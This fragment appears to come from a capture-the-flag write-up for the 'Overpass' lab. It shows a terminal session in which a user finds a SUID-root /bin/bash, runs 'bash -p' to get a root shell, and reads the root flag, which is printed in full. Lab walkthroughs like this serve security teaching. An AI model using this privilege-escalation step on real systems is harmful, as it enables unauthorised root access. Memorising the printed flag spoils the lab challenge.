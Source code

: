 ```
james@overpass-prod:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
james@overpass-prod:~$ /bin/bash -p
bash-4.4# ls
linpeas.log  linpeas.sh  todo.txt  user.txt
bash-4.4# cd /root
bash-4.4# ls
buildStatus  builds  go  root.txt  src
bash-4.4# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
bash-4.4#
```

`thm{7f336f8c359dbac18d54fdd64ea753bb}`
